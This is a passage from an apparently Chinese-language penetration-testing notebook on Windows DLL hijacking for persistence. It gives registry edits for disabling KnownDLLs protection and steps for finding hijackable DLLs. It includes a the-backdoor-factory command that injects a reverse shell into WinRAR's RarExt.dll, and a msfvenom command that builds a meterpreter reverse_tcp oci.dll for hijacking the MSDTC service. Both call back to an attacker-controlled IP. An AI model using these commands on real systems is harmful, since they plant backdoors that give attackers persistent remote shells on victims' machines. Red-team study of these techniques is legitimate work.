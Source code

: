  #### 劫持1
	注册表
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls下添加 "lpk.dll"(若无，自己创建)
	ExcludeFromKnownDlls可使KnownDLLs失效
	需要重新启动电脑
	查找可劫持的DLL：
	1.启动程序
	2.使用Process Explorer查看该应用程序启动后加载的DLL。
	3.从已经加载的DLL列表中，查找在上述“KnownDLLs注册表项”中不存在的DLL。
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
	4.编写第三步中获取到的DLL的劫持DLL。
	5.将编写好的劫持DLL放到该应用程序目录下，重新启动该应用程序，检测是否劫持成功。
![image](/assets/Pentest_Note/master/img/467.png)

	Explorer.exe启动调用winrar文件夹的RarExt.dll
	Msf监听
![image](/assets/Pentest_Note/master/img/468.png)

	复制dll文件到the-backdoor-factory文件夹中，加载恶意dll进原dll
	>python backdoor.py -f RarExt.dll -s reverse_shell_tcp_inline -P 12138 -H 192.168.0.107 指定为kali监听的IP和端口
![image](/assets/Pentest_Note/master/img/469.png)

	生成好的dll在backdoored文件夹，传入靶机中，替换原dll文件，最好把原dll保存备份。
	每次打开windows资源管理器的时候，即可上线。重启可维持
![image](/assets/Pentest_Note/master/img/470.png)
 #### 劫持2
	使用
	https://github.com/coca1ne/DLL_Hijacker
	https://github.com/git20150901/DLLHijack_Detecter
	查看要劫持的DLL的函数导出表，会直接生成cpp源码，重编译指向恶意代码
	DLLHijack_Detecter可查看程序加载的不在KnownDLLs中的DLL
 #### MSDTC服务劫持
	服务名称MSDTC,显示名称Distributed Transaction Coordinator
	对应进程msdtc.exe,位于%windir%system32
	C:\Windows\System32\wbem\
	服务启动搜索注册表位置计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSDTC\MTxOCI
	#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.51 LPORT=4444 -f dll -o /var/www/html/oci.dll
	Oci.dll放入c:\windows\system32\
	重启服务即可
	>taskkill /f /im msdtc.exe
 #### Rattler
	自动化查找可劫持的DLL
	https://github.com/sensepost/rattler
	使用
	>Rattler_x64.exe calc.exe 1
	会列出可被劫持的DLL
![image](/assets/Pentest_Note/master/img/471.png)

	按程序读取DLL位置顺序，把恶意DLL放入程序同目录后，执行程序即可。
![image](/assets/Pentest_Note/master/img/472.png)
![image](/assets/Pentest_Note/master/img/473.png)